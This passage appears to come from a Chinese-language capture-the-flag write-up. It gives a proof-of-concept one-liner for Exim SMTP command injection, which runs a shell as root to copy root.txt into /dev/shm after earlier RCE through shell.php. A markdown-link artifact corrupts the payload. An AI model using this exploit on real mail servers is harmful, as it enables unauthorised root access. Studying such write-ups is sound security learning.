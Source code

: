 我检查了远程攻击是不可能的；然而，本地利用这一点是可能的，这意味着我们可以在从`shell.php`获得 RCE 后利用这一攻击获得根用户访问权。

```
**### Exim SMTP Exploit PoC Code**
touch /dev/shm/bigb0ss;(sleep 1 ; echo HELO bigb0ss ; sleep 1 ; echo 'MAIL FROM:<>' ; sleep 1 ; echo 'RCPT TO:<${run{\x2Fbin\x2Fsh\x09-c\x09\x22cat\x09\x2Froot\x2Froot.txt\x3E\x3E\x2Fdev\x2Fshm\x2Fbigb0ss\x22}}[@localhost](http://twitter.com/localhost)>' ; sleep 1 ; echo DATA ; sleep 1 ; echo "Received: 1" ; echo "Received: 2" ; echo "Received: 3" ; echo "Received: 4" ; echo "Received: 5" ; echo "Received: 6" ; echo "Received: 7" ; echo "Received: 8" ; echo "Received: 9" ; echo "Received: 10" ; echo "Received: 11" ; echo "Received: 12" ; echo "Received: 13" ; echo "Received: 14" ; echo "Received: 15" ; echo "Received: 16" ; echo "Received: 17" ; echo "Received: 18" ; echo "Received: 19" ; echo "Received: 20" ; echo "Received: 21" ; echo "Received: 22" ; echo "Received: 23" ; echo "Received: 24" ; echo "Received: 25" ; echo "Received: 26" ; echo "Received: 27" ; echo "Received: 28" ; echo "Received: 29" ; echo "Received: 30" ; echo "Received: 31" ; echo "" ; echo "." ; echo QUIT) | nc 127.0.0.1 25*(*Disclaimer: During this exploit, I was having many syntax errors, and CurioCT was a hero to help me to fix it. Thanks mate!)*
```

因此，一旦被利用，它会将`root.txt`文件转换为`/dev/shm/bigb0ss`文件。由于`bigb0ss`文件将在当前用户的上下文中创建，我们可以直接读取该文件:)

![](img/8fd1e5506f29e37331bc2d4367133056.png)

一旦通过`Burp`运行，我们可以看到来自服务器的有希望的响应。

![](img/4067f9f76faeb690074d12085fd40e4c.png)

事实上，它在`/dev/shm`文件夹下创建了名为`bigb0ss`的文件。
